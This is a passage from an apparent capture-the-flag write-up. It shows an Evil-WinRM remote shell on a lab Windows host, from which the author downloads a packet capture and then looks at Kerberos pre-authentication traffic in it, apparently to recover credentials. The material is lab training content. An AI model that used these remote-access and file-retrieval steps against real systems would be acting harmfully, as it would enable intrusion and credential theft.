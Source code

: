 ```


    Directory: C:\Users\Sara.B\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        11/4/2024  12:53 AM                WS-01


*Evil-WinRM* PS C:\Users\Sara.B\Documents> cd WS-01
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> ls


    Directory: C:\Users\Sara.B\Documents\WS-01


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap


*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> download WS-01_PktMon.pcap
                                        
Info: Downloading C:\Users\Sara.B\Documents\WS-01\WS-01_PktMon.pcap to WS-01_PktMon.pcap
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> exit
                                        
Info: Exiting with code 0

```

### Parsing Kerberos pre-auth data

The `Description.txt` contains the following notification:

```
┌──(kali㉿kali)-[~/HTB/Certificate]
└─$ cat Description.txt 
��The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!
```

After opening the capture in Wireshark we found SMB packets and several Kerberos packets (AS-REQ, AS-REP and TGS-REP).
